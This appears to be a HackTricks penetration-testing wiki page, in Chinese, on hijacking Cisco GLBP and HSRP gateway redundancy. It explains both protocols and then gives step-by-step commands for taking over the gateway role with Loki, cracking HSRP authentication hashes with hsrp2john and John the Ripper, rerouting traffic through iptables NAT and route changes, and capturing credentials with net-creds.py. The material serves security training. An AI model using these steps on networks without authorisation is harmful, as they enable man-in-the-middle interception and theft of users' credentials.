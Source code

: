 # GLBP & HSRP Attacks

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## FHRP 劫持概述

### FHRP 的见解
FHRP 旨在通过将多个路由器合并为一个虚拟单元来提供网络的鲁棒性，从而增强负载分配和容错能力。思科系统公司在这一套协议中引入了 GLBP 和 HSRP 等重要协议。

### GLBP 协议见解
思科创建的 GLBP 在 TCP/IP 协议栈上运行，使用 UDP 在 3222 端口进行通信。GLBP 组中的路由器每 3 秒交换一次“hello”数据包。如果路由器在 10 秒内未发送这些数据包，则被认为处于离线状态。然而，这些定时器并不是固定的，可以进行修改。

### GLBP 操作和负载分配
GLBP 的突出之处在于通过使用单个虚拟 IP 和多个虚拟 MAC 地址在路由器之间实现负载分配。在 GLBP 组中，每个路由器都参与数据包转发。与 HSRP/VRRP 不同，GLBP 通过多种机制提供真正的负载均衡：

- **主机依赖负载均衡：** 为主机保持一致的 AVF MAC 地址分配，这对稳定的 NAT 配置至关重要。
- **轮询负载均衡：** 默认方法，在请求主机之间交替分配 AVF MAC 地址。
- **加权轮询负载均衡：** 根据预定义的“权重”指标分配负载。

### GLBP 中的关键组件和术语
- **AVG（活动虚拟网关）：** 主要路由器，负责分配 MAC 地址给对等路由器。
- **AVF（活动虚拟转发器）：** 指定管理网络流量的路由器。
- **GLBP 优先级：** 决定 AVG 的指标，默认值为 100，范围在 1 到 255 之间。
- **GLBP 权重：** 反映路由器的当前负载，可以手动或通过对象跟踪进行调整。
- **GLBP 虚拟 IP 地址：** 作为所有连接设备的网络默认网关。

在交互中，GLBP 使用保留的组播地址 224.0.0.102 和 UDP 端口 3222。路由器每 3 秒发送一次“hello”数据包，如果在 10 秒内错过一个数据包，则被视为非操作状态。

### GLBP 攻击机制
攻击者可以通过发送具有最高优先级值（255）的 GLBP 数据包成为主要路由器。这可能导致 DoS 或 MITM 攻击，允许流量拦截或重定向。

### 使用 Loki 执行 GLBP 攻击
[Loki](https://github.com/raizo62/loki_on_kali) 可以通过注入优先级和权重设置为 255 的数据包来执行 GLBP 攻击。攻击前的步骤包括使用 Wireshark 等工具收集虚拟 IP 地址、身份验证存在性和路由器优先级值等信息。

攻击步骤：
1. 切换到混杂模式并启用 IP 转发。
2. 确定目标路由器并获取其 IP。
3. 生成一个 Gratuitous ARP。
4. 注入一个恶意 GLBP 数据包，冒充 AVG。
5. 为攻击者的网络接口分配一个次要 IP 地址，镜像 GLBP 虚拟 IP。
6. 实施 SNAT 以实现完整的流量可见性。
7. 调整路由以确保通过原始 AVG 路由器继续访问互联网。

通过遵循这些步骤，攻击者将自己定位为“中间人”，能够拦截和分析网络流量，包括未加密或敏感数据。

以下是所需的命令片段：
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
监控和拦截流量可以使用 net-creds.py 或类似工具来捕获和分析流经被攻陷网络的数据。

### HSRP 劫持的被动解释及命令细节

#### HSRP（热备份路由器/冗余协议）概述
HSRP 是一种思科专有协议，旨在实现网络网关冗余。它允许将多个物理路由器配置为一个共享 IP 地址的单一逻辑单元。该逻辑单元由一个主要路由器管理，负责流量的引导。与使用优先级和权重等指标进行负载均衡的 GLBP 不同，HSRP 依赖于单个活动路由器进行流量管理。

#### HSRP 中的角色和术语
- **HSRP 活动路由器**：充当网关的设备，管理流量流动。
- **HSRP 备用路由器**：备用路由器，准备在活动路由器故障时接管。
- **HSRP 组**：一组路由器协作形成一个单一的弹性虚拟路由器。
- **HSRP MAC 地址**：在 HSRP 设置中分配给逻辑路由器的虚拟 MAC 地址。
- **HSRP 虚拟 IP 地址**：HSRP 组的虚拟 IP 地址，作为连接设备的默认网关。

#### HSRP 版本
HSRP 有两个版本，HSRPv1 和 HSRPv2，主要在组容量、多播 IP 使用和虚拟 MAC 地址结构上有所不同。该协议利用特定的多播 IP 地址进行服务信息交换，每 3 秒发送一次 Hello 数据包。如果在 10 秒内未收到数据包，则假定路由器处于非活动状态。

#### HSRP 攻击机制
HSRP 攻击涉及通过注入最大优先级值强行接管活动路由器的角色。这可能导致中间人（MITM）攻击。攻击前的关键步骤包括收集有关 HSRP 设置的数据，可以使用 Wireshark 进行流量分析。

#### 绕过 HSRP 认证的步骤
1. 将包含 HSRP 数据的网络流量保存为 .pcap 文件。
```shell
tcpdump -w hsrp_traffic.pcap
```
2. 使用 hsrp2john.py 从 .pcap 文件中提取 MD5 哈希。
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. 使用 John the Ripper 破解 MD5 哈希。
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**使用 Loki 执行 HSRP 注入**

1. 启动 Loki 以识别 HSRP 广告。
2. 将网络接口设置为混杂模式并启用 IP 转发。
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. 使用 Loki 针对特定路由器，输入破解的 HSRP 密码，并执行必要的配置以冒充活动路由器。
4. 在获得活动路由器角色后，配置您的网络接口和 IP 表以拦截合法流量。
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 修改路由表以通过前活动路由器路由流量。
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 使用 net-creds.py 或类似工具从拦截的流量中捕获凭据。
```shell
sudo python2 net-creds.py -i eth0
```

执行这些步骤使攻击者能够拦截和操纵流量，类似于 GLBP 劫持的过程。这突显了 HSRP 等冗余协议的脆弱性以及对强大安全措施的需求。

## 参考文献
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
学习和实践 AWS 黑客攻击：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客攻击：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
